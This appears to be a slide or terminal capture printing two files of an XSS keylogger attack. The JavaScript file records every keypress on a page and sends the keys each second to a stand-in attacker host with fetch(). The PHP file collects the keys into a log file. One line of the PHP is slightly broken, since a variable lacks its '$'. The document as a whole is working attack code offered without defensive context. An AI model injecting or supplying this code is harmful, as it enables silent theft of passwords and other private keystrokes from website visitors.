

$ cat k.js
# XSS Keylogger
keys = '';
document.onkeypress = function(e) {
     get = window.event?event:e;
     key = get.keyCode?get.keyCode:get.charCode;
     key = String.fromCharCode(key);
     keys += key;
}
setInterval(function(){
     fetch('//attacker.com/k.php?k=' + keys);
     keys = '';
}, 1000);
$ cat k.php
<?php
$k = $_GET["k"];
if (!empty(k)) {
     $f = fopen("log.txt", "a+");
     fwrite($f, $k);
     fclose($f);
}